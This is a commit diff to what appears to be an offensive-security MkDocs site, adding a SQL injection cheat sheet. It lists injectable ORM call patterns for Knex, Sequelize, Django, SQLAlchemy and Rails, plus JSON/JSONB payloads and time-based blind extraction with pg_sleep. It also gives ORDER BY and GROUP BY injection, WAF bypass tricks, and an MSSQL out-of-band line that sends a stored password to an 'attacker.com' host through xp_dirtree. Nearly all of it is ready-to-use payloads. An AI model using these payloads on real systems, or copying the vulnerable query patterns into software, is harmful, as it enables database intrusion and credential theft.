

Before and after one commit to Nooboclawdus/hackus-codex, an MkDocs documentation site: the page built from docs/quick/sqli.md, in a window 1280 px wide and 1400 px high, scrolled down 5766 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; before the commit the page ends 6396 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
feat: add ORM/JSON/WAF SQLi payloads + JWT quick commands
- SQLi: Knex, Sequelize, Django, SQLAlchemy, Rails ORM injections
- SQLi: PostgreSQL JSONB, MySQL JSON operators
- SQLi: ORDER BY/GROUP BY blind, LIMIT/OFFSET timing
- SQLi: WAF bypass (scientific notation, comment-newline)
- SQLi: MSSQL OOB with variable extraction
- JWT: Quick decode one-liner, signature stripping
- JWT: kid template injection, JWK header embedding

````diff
--- a/docs/quick/sqli.md
+++ b/docs/quick/sqli.md
@@ -296,6 +296,79 @@ sqlmap -u "https://target.com/login" --data="user=*&pass=test" --dbs
 sqlmap -u "https://target.com/?id=1" --tamper=space2comment,between --dbs
 ```
 
+## ORM Injection Points
+
+```javascript
+// Knex - orderByRaw/whereRaw
+db.orderByRaw(`created_at ${direction}`)
+db.whereRaw(`name = '${userInput}'`)
+
+// Sequelize literal
+Model.findAll({where: sequelize.literal(`role = '${role}'`)})
+```
+
+```python
+# Django extra()
+Model.objects.extra(where=[f"name = '{name}'"])
+
+# SQLAlchemy text()
+db.execute(text(f"SELECT * FROM users WHERE id = {id}"))
+```
+
+```ruby
+# Rails order injection
+User.order("#{params[:sort]} #{params[:dir]}")
+```
+
+## JSON/JSONB Operators
+
+```sql
+-- PostgreSQL JSONB
+' OR data->>'role' = 'admin' --
+' AND data @> '{"admin":true}' --
+
+-- PostgreSQL CTE blind extraction
+WITH x AS (SELECT data->>'password' as p FROM users WHERE id=1)
+SELECT CASE WHEN substring(p,1,1)='a' THEN pg_sleep(1) ELSE 1 END FROM x
+
+-- MySQL JSON
+JSON_EXTRACT(data, '$.role') = 'admin' OR 1=1--
+```
+
+## Uncommon Injection Points
+
+```sql
+-- ORDER BY boolean blind
+ORDER BY (CASE WHEN (1=1) THEN id ELSE name END)
+ORDER BY IF(1=1,id,name)
+
+-- GROUP BY injection
+GROUP BY (CASE WHEN (SELECT 1)=1 THEN id ELSE name END)
+
+-- LIMIT/OFFSET timing
+LIMIT 1 OFFSET (SELECT COUNT(*) FROM large_table)
+
+-- Full-text PostgreSQL
+to_tsquery('english', 'word & ' || user_input)
+```
+
+## WAF Bypass
+
+```sql
+-- Scientific notation
+1e0UNION SELECT
+
+-- Comment + newline
+SELECT--comment%0aSELECT * FROM users
+
+-- Null byte
+%00' OR 1=1--
+
+-- MSSQL OOB with variable
+DECLARE @d varchar(1024);SELECT @d=password FROM users WHERE id=1;
+EXEC('xp_dirtree ''\\'+@d+'.attacker.com\a''');
+```
+
 ---
 
 !!! tip "Test Order"
````
Also changed, not shown: docs/quick/auth.md (+19 -0 lines), docs/quick/llm.md (added, +320 -0 lines).
